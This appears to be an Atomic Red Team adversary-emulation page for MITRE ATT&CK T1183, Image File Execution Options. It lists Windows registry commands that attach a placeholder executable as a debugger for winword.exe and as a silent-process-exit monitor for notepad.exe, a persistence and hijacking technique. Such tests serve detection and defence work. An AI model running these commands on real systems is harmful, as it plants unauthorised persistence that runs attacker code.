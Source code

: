 # Image File Execution Options

## MITRE ATT&CK Technique:
[T1183](https://attack.mitre.org/wiki/Technique/T1183)

## Debugger

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winword.exe" /v Debugger /d "C:\folder\AtomicRedTeam.exe"


## GlobalFlags

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\folder\AtomicRedTeam.exe"

